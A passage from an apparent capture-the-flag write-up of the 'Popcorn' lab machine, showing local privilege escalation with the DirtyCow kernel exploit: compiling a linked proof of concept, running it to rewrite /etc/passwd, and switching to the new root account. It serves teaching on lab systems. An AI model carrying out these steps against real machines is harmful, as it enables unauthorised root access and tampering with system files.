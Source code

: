 
### Dirty Cow

Given the age of this box, there are surely several kernel exploits to go
after here. For example, `uname -a` shows it is running `2.6.31`:

    
    
    root@popcorn:/dev/shm# uname -r
    2.6.31-14-generic-pae
    

It’s likely vulnerable to
[DirtyCow](https://github.com/dirtycow/dirtycow.github.io/wiki/Patched-Kernel-
Versions). The page for it has a [list of
POCs](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs). I’ve had the
best luck with `dirty.c`. I can grab [this
code](https://github.com/FireFart/dirtycow/blob/master/dirty.c) and compile it
on Popcorn:

    
    
    www-data@popcorn:/dev/shm$ gcc -pthread dirty.c -o dirty -lcrypt
    

Now run it:

    
    
    www-data@popcorn:/dev/shm$ chmod +x dirty
    www-data@popcorn:/dev/shm$ ./dirty
    /etc/passwd successfully backed up to /tmp/passwd.bak
    Please enter the new password: 
    Complete line:
    firefart:fiek5FdMtod.2:0:0:pwned:/root:/bin/bash
    
    mmap: b78a8000
    ^C
    

For some reason it hangs sometimes. After a minute, I’ll kill it. But the user
is still added:

    
    
    www-data@popcorn:/dev/shm$ su - firefart
    Password: 
    firefart@popcorn:~# id
    uid=0(firefart) gid=0(root) groups=0(root)
    firefart@popcorn:~#
    

[](/2020/06/23/htb-popcorn.html)

